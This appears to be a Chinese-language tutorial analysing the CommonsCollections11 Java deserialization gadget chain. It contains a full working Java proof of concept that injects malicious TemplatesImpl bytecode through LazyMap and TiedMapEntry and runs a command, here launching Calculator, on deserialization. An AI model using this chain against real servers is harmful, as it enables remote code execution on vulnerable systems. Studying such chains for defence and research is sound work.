

# CommonsCollections11利用链分析

## 前言

`CommonsCollections11`链子的利用环境如下：

```
CommonsCollections 3.1 - 3.2.1
JDK版本暂无
```

可能学到这里，你和我一样会有一个疑问：`CommonsCollections6`已经通杀`3.1-3.2.1`的情况下，为什么还要学该版本下的其他链子？

个人觉得`CommonsCollection11`的存在是为了解决在`CommonsCollections 3.1 - 3.2.1`的版本下加载恶意字节码的问题。除此之外，`CommonsCollections6`在`shiro`中使用时会报错，至于为什么，具体答案留到`shiro`章节学习时再进行解惑。

这里提到恶意字节码，很快能想到前面学习的`CommonsCollections2`这条链子，聪明的你应该已经能想到了，`CommonsCollections11`就是`CommonsCollections2`和`CommonsCollections6`结合而来。

## 利用链

先回忆一下，`CommonsCollections2`链子只所以限制版本为`CommonsCollections 4.0`，则是因为 gadget 中用到了`TransformingComparator`类，而该类只有在 4.0 版本的时候才实现了`serializable`接口。

在`3.1 - 3.2.1`版本的时候无法使用该类，而是使用了`CommonsCollections6`中的`TiedMapEntry`类来触发`LazyMap#get()`，最后执行`transform()`方法。接下来还剩一个问题，就是如何触发`TemplatesImpl#newTransformer()`方法来加载恶意字节码？

在`CommonsCollections11`中只单独使用`InvokerTransformer`类，通过反射修改`iMethodName`为`newTransformer()`方法。 POC 如下：
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
        commonsCollections11.unserialize();
    }
    public void serialize() throws Exception{
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```



通过把`TemplatesImpl`类对象`templates`作为`TiedMapEntry`类的`key`


执行到`LazyMap#get()`方法时，成功触发到`TemplatesImpl#newTransformer()`方法加载恶意类
